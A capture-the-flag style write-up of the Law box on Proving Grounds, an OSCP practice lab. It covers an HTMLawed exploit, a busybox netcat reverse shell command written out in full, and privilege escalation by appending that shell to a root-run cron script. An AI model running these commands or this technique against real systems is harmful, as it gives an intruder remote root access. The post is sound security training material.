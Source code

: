 ```yaml
---
layout: post
title: Law - Proving Grounds
date: 2024-07-12 13:32:20 +0300
description: A Writeup of the Law Box from Proving Grounds
image: /assets/images/Law/Law_1.png
fig-caption: # Add figcaption (optional)
tags: [TJ Null]
---
```


Here is a writeup for the Law lab on [Proving Grounds](https://www.offsec.com/labs/), another box from TJ Null's OSCP [lab prep list](https://docs.google.com/spreadsheets/u/1/d/1dwSMIAPIam0PuRBkCiDI88pU3yzrqqHkDtBngUHNCw8/htmlview#). Let's kick things off as usual with an nmap scan, using `-v` so we can investigate as we go. We see there is a web server on port 80 and check it out. 

![Law_1.png](/assets/images/Law/Law_1.png){: .center-aligned width="600px"}

From the project's github, HTMLawed is "a highly customizable PHP script to sanitize / make (X)HTML secure against XSS attacks, so users can edit HTML without risk of your site getting compromised by evildoers." Noted.

We find an exploit-db shell script, but through Google rather than exploit-db or searchsploit because it is actually misspelled with two "L's". 

![Law_4.png](/assets/images/Law/Law_4.png){: .center-aligned width="600px"}

It seems to work immediately with the busybox shell: `busybox nc 192.168.45.154 80 -e /bin/bash`. Exciting, I feel like I never see that. Maybe the privesc is the tough part. 

![Law_3.png](/assets/images/Law/Law_3.png){: .center-aligned width="600px"}

This time I `cd ..` my way out of the working directory in case I see a local.txt file, and I do in `/var/www`. Cool. I missed that on the Crane box. 

I can't run `sudo -l` without a password, and I don't see any interesting SUID binaries when I run `find / -type f -perm -u=s 2>/dev/null`, so I download linpeas to check things out and run it. Unfortunately nothing jumps out at me immediately beyond kernel exploits like PwnKit and DirtyPipez. Usually I want to avoid this in a lab environment like this as it is likely the creators had a different path planned, but I'll make a note of them. 

I download and run pspy64 to see if I can find anything interesting there while I think, and I see this: `2024/07/20 17:48:01 CMD: UID=0     PID=14435  | /bin/bash /var/www/cleanup.sh` run a few times. That could be interesting if root is running it, and we can modify. We can tell root is running it because it says the `UID=0`. We could also tell if we ran `lse.sh -l1`, but not linpeas. 

Turns out we can, so we add the busybox shell to the cleanup script and wait. 

![Law_2.png](/assets/images/Law/Law_2.png){: .center-aligned width="600px"}

![Law_5.png](/assets/images/Law/Law_5.png){: .center-aligned width="600px"}

A minute later, we catch a root shell, and snag the proof.txt. Nice!

This machine was fairly straightforward once I googled the web service and realized it was misspelled. Then is was just a matter of seeing what processes were running and realize I could abuse one of them. Also - another win for the busybox shell, that's good to know. 